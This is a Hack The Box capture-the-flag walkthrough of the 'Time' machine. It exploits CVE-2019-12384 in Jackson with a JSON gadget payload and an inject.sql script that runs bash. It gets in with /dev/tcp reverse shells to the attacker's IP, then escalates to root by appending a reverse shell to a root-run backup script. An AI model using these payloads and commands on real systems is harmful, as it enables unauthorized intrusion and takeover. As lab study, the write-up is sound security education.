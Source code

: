 ```yaml
---
layout: page
title: Time
description: Write-up
dropdown: HTB-BOXES
priority: 2
---
```

# Time Walkthrough
![](https://i.ibb.co/pP4vK3F/image.png)



# []()Methodology

* Nmap scan.
* Web enumertation.
* Jackson RCE cve.
* Getting reverse shell.
* Enumerate Time.
* Getting reverse shell.
* RooTed.

## Nmap Scan:

**I just found 22 for ssh and 80 for http web page**


![](https://i.ibb.co/rGkP8zJ/image.png)

### Let's start with the Web Page:

**It's an online JSON beautifier and validator.**

![](https://i.ibb.co/GWKXZz3/image.png)

> * I tried to find SQLi, But while i was fired up my Burp suit i found that interesting error. 

![](https://i.ibb.co/H77fsKh/image.png)

> **I searched google about (unhandled java exception com.fasterxml.jackson.core.jsonparseexception), After 15 minutes of search i realized that is a JSON deserialization, And i found a CVE-2019-12384, It's Famous about Jackson Rce For CVE-2019-12384.**


> **This [CVE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-12384) allow attacker to get RCE, By FasterXML jackson-databind 2.x before 2.9.9.1 might allow attackers to have a variety of impacts by leveraging failure to block the logback-core class from polymorphic deserialization. Depending on the classpath content, remote code execution may be possible.**


##### Hackers logic if there is a CVE, Find its Exploit.

* I found this [Exploit](https://github.com/jas502n/CVE-2019-12384), But for some reason it didn't work with me.
* Then i found [This one](https://www.programmersought.com/article/77146841082/), I will use the RCE part with reverse shell.

> **In simple steps:**
1. Add inject.sql file to your machine.
2. Get ready your bash shell execution for the reverse shell ```(CALL SHELLEXEC('bash -i &>/dev/tcp/YOUR_MACHINE_IP/YOUR_NC_LISTNER_PORT 0>&1 &'))```.
3. Fired up your http server for port 8000 to upload inject.sql for our attacking box (Time).
4. Make your listner ready for the reverse shell.
5. Use the POC payload with YOUR_MACHINE_IP on port 8000 in Validate (Beta!).
6. BOOOM, you got reverse shell.

**inject.sql**
```ruby
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -i &>/dev/tcp/10.10.16.11/1234 0>&1 &')
```
**Firing up our http server..**

![](https://i.ibb.co/synM0x0/image.png)

**Netcat as our listner ```yahia@Y4h1a:~$ nc -nlvp 1234 ```...**

**POC payload..**
```php
["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.16.11:8000/inject.sql'"}]
```
**Here** 

![](https://i.ibb.co/nc1pGwZ/image.png)

**Looking to http server we found GET /inject.sql is 200 and that's OK.**

![](https://i.ibb.co/dtjG5BM/image.png)

**Our listner..**

![](https://i.ibb.co/XshCJMZ/image.png)

> * We got reverse shell successfully.

> * Now i'm Pericles user.

![](https://i.ibb.co/XjnTN1D/image.png)

> **I spent a day enumerating this box and i lost alot of Time as its name, But no thing useful So i decided the next day to use LinPEAS, it's a Tool to automate the enumeration process.**


![](https://i.ibb.co/fpZ92df/image.png)


![](https://i.ibb.co/hfJzCL3/image.png)

**I found that intersting file to check ``` /usr/bin/timer_backup.sh ```**

```bash
pericles@time:/usr/bin$ cat timer_backup.sh
cat timer_backup.sh
#!/bin/bash
zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip
```
> **It's create a zip archive from /var/www/html and moving it to /root/backup.zip**

> **So we have two ways to solve this situation, First add our public key to the authorized keys for root in Time Box and connect via ssh, but NO TIME so i choosed the second choice by getting reverse shell via bash shell ```echo "bash -i >& /dev/tcp/YOUR_MACHINE_IP/YOUR_NC_LISTNER_PORT 0>&1" >>/usr/bin/timer_backup.sh```**

```bash
pericles@time:/usr/bin$ echo "bash -i >& /dev/tcp/10.10.16.11/4321 0>&1" >>/usr/bin/timer_backup.sh
<p/10.10.16.11/4321 0>&1" >>/usr/bin/timer_backup.sh
```
> **Till Now it's OK and you will get reverse shell to your listner, But for ONLY 5 seconds i think and that is the idea of TIME box, So you have to be very fast to cat your root flag ```cat /root/root.txt``` as always to find the root flag, So the first solution of adding our public key to the authorized keys for root is the best, Because it's will give us persistence to get access to root for TIME box.**

```bash
yahia@Y4h1a:~$ nc -nlvp 4321
Listening on 0.0.0.0 4321
Connection received on 10.10.10.214 45098
bash: cannot set terminal process group (228025): Inappropriate ioctl for device
bash: no job control in this shell
root@time:/# cat /root/root.txt
cat /root/root.txt
7a6040***********b14a463fcd5
```
# RooTed

<img src="http://www.hackthebox.eu/badge/image/209461" alt="Hack The Box">





![]()
![]()
